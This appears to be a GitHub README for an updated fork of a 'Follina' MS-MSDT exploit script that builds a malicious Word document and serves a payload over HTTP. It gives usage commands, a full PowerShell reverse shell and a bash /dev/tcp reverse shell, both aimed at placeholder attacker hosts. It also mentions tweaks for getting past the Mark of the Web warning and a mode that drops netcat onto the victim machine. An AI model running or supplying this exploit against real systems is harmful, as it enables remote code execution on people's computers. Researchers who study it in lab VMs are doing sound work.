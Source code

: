 # MS-MSDT "Follina" Attack Vector, Updated Version 2025

## Edited/Added:

- Fixed Options error in TCP Server log
- Added Copy of doc file to Http Server for directly download payload
- Added some Text to doc file for "maybe easy" bypassing Mark of the Web info banner
- Added new native PS Reverse Shell via `--reverse 5555` Parameter for bypassing nc problems
- Some extra stuff in codebase


## Run Script

- Download [Win10_21H2_English_x32.iso (Build 19044.1288)](https://archive.org/download/Win10_21H2_English_x32/Win10_21H2_English_x32.iso)
- Install/Run on Virtualbox or other VM
- Download Office 32bit (ODT not working for me at this point)
- `bitsadmin /TRANSFER O13DL /DOWNLOAD /PRIORITY high https://ia803209.us.archive.org/29/items/microsoft-office-2013-pro-plus-sp-1-english-32-bit_202005/Microsoft-Office-2013-Pro-Plus-SP1-English-32Bit.zip C:\office32.zip`
- Unzip and run follina.py

## Run

```bash
# Calc only
python3 follina.py -i eth0 -p 8008
```
---

```bash
# Multiple programs and MsgBox
python3 follina.py -i enp0s3 -p 8008 -c 'calc ; winver ; Add-Type -AssemblyName "System.Windows.Forms"; [System.Windows.Forms.MessageBox]::Show("This is Follina PoC Edit by suuhm 2025", "Follina PoC", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Warning, [System.Windows.Forms.MessageBoxDefaultButton]::Button1, [System.Windows.Forms.MessageBoxOptions]::DefaultDesktopOnly) ; notepad'
```

## Reverse Shells

```bash
# New Alter-Native Reverse shell
python3 follina.py -i enp0s3 -p 8008 -r 5555
```

--- 

```bash
ip a; nc -lnvp <WISHED_PORT> 

# Using native Reverse LOLBIN shell
python3 follina.py -i enp0s3 -p 8008 -c '$c=New-Object System.Net.Sockets.TCPClient("<REMOTE_IP_HOSTNAME>",<WISHED_PORT>);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex ". { $d } 2>&1"|Out-String)+"PS "+(pwd).Path+"> ";$sb=[text.encoding]::ASCII.GetBytes($r);$s.Write($sb,0,$sb.Length);$s.Flush()};$c.Close()'


# For mysys/cygwin systems etc...
python3 follina.py -i enp0s3 -p 8008 -c "export RHOST=<RHOST_IP>;export RPORT=5555;bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'"
```

---


![grafik](https://github.com/user-attachments/assets/6adefab8-b657-4e98-bcd8-37d83db8387a)



---

> John Hammond | May 30, 2022

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
